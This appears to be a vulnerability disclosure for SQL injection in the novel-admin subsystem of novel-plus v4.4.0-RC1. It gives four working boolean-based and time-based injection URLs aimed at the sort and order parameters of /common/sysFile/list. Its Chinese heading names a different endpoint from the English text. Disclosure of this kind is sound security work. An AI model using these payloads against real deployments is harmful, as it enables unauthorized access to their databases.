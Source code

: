 SQL injection vulnerability exists in novel-plus v4.4.0-RC1

novel-plus系统novel-admin子系统common/log/list接口存在SQL注入
The /common/sysFile/list interface of the novel-admin subsystem in the novel-plus system has SQL injection vulnerability.

official website: https://novel.xxyopen.com/index.htm

github: https://github.com/201206030/novel-plus

Affected version: v4.4.0-RC1

releases：https://github.com/201206030/novel-plus/releases/tag/v4.4.0-RC1


Payload:
```
--sort--
http://127.0.0.1:8088/common/sysFile/list?limit=10&offset=0&sort=1 AND 7858=(SELECT (CASE WHEN (7858=7858) THEN 7858 ELSE (SELECT 8757 UNION SELECT 2737) END))-- -&order=asc
http://127.0.0.1:8088/common/sysFile/list?limit=10&offset=0&sort=1 AND (SELECT 8148 FROM (SELECT(SLEEP(5)))yohp)&order=asc
--order--
http://127.0.0.1:8088/common/sysFile/list?limit=10&offset=0&sort=1&order=,1 AND 4354=(SELECT (CASE WHEN (4354=4354) THEN 4354 ELSE (SELECT 8745 UNION SELECT 7606) END))-- - asc
http://127.0.0.1:8088/common/sysFile/list?limit=10&offset=0&sort=1&order=,1 AND (SELECT 2800 FROM (SELECT(SLEEP(5)))qQhq) asc
```


